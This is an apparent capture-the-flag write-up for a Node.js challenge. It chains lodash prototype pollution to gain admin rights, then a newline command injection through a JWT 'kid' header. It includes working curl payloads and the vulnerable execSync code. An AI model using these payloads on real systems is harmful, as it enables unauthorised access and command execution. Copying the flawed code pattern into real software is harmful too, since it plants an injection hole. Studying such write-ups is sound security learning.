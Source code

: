 # Karafé Kid 

The application is a kind of math API for CTF, the source code is available.

![application](./img/application.png)

As we can see in the source code, there is a import of the `lodash` library and it uses the `merge` function.

```javascript
const _ = require("lodash");

[...]

app.post('/api/polynome', (req, res) => {
    console.log('Data:', req.body);
    let array = {
        a: 0,
        b: 0,
        c: 0
    };
    _.merge(array, req.body);
    let { a, b, c } = array;
```

There is a known vulnerability on this function and library called **Prototype Pollution**. We can modify and pollute the value of an object.

- https://github.com/kimmobrunfeldt/lodash-merge-pollution-example

We identify the admin route that required that the `user` object need to be admin : 

```javascript
    username: 'Ronald Rivest',
    spec: 'RSA',
    CheckifAdmin: false
};

[...]

app.get('/admin', (req, res) => {
    if (user.CheckIfAdmin) {
```

As there is a typo in the CheckIfAdmin condition (**CheckifAdmin** != **CheckIfAdmin**), we can pollute the object using the known vulnerability.


```bash
curl -ski -X POST 'http://0.0.0.0:3000/api/polynome' --header 'Content-Type: application/json' --data-raw '{"a": "2", "__proto__": { "CheckIfAdmin": true }}'
```

And thus access to the admin panel. 

![admin_panel](./img/admin_panel.png)


We have now a JWT as a cookie on the application.

![jwtio](./img/jwtio.png)

As we can see in the source code, the application fetch the KID before verifying the signature, and use the find command to reach the KID file 

```javascript
// fetch the KID file
let keyFile;
try {
    keyFile = execSync(`find ./keys -name ${kid}`).toString().trim();
} catch (error) {
    console.log('Failed to find key file:', error.message);
    return res.sendStatus(500);
}
```

But there is a whitelist regex based on UUIDs

```javascript
// check if only uuid are used
const allowedChars = /^[a-zA-Z0-9_\s\.-]+$/ 
if (!allowedChars.test(kid)) {
    console.log('Forbidden characters in kid.');
    return res.status(400).json({ message: 'Forbidden characters in kid.' });
}
```

We can notice that `\s` (whitespace) are accepted, we can perform a new line command injection.


```bash
curl -ski 'http://0.0.0.0:3000/admin' -H 'Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6ImFcbmNhdCBmbGFnLnR4dCJ9.eyJ1c2VybmFtZSI6IlJvbmFsZCBSaXZlc3QiLCJhZG1pbiI6dHJ1ZSwiaWF0IjoxNjk3MTk3ODA2LCJleHAiOjE2OTcyMTIyMDZ9.0tG__bk90Y3jK5gng4a509AHF4LllMd5l8K5OwtRYho' | grep -Eo 'GH{(.*)}'
```